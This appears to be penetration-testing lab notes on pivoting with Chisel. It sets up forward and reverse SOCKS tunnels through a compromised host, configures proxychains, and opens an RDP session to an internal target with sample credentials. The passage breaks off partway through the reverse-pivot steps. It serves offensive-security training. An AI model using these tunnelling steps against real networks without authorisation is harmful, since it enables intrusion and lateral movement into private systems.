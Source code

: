 {% hint style="success" %}
**Now we have an encrypted channel between us and whatever target.**
{% endhint %}

## Chisel: Creating a two-way tunnel&#x20;

With chisel, we can setup a client/server connection, to/from the pivot host. Upon connection, we can pivot to the internal network.&#x20;

Depending on firewall rules or whatever, we can initiate the connection from our machine, or the compromised pivot.

### Chisel "forward" Pivot

1. After building or installing Chisel, we can run the Chisel server on the pivot using:&#x20;

```shell-session
./chisel server -v -p 1234 --socks5
```

2. Now we can connect to the server using:&#x20;

```shell-session
./chisel client -v <PIVOT's IP>:1234 socks
<REDACTED>
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
<REDACTED>
```

3. Ensure `proxychains.conf` has the following entry:&#x20;

```
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

4. Connect to an internal target:

```shell-session
proxychains xfreerdp /v:<INTERNAL IP> /u:victor /p:pass@123
```

{% hint style="success" %}
**With this configuration, we can initiate the connection from our attacking machine and then proceed with our attacks.**
{% endhint %}

### Chisel Reverse Pivot

For this set, we will setup the server on our side, and then connect back to it from the pivot.

1. Run the chisel server locally using `--reverse` flag.

```shell-session
sudo ./chisel server --reverse -v -p 1234 --socks5
```

2. Connect back to the server from the compromised pivot:
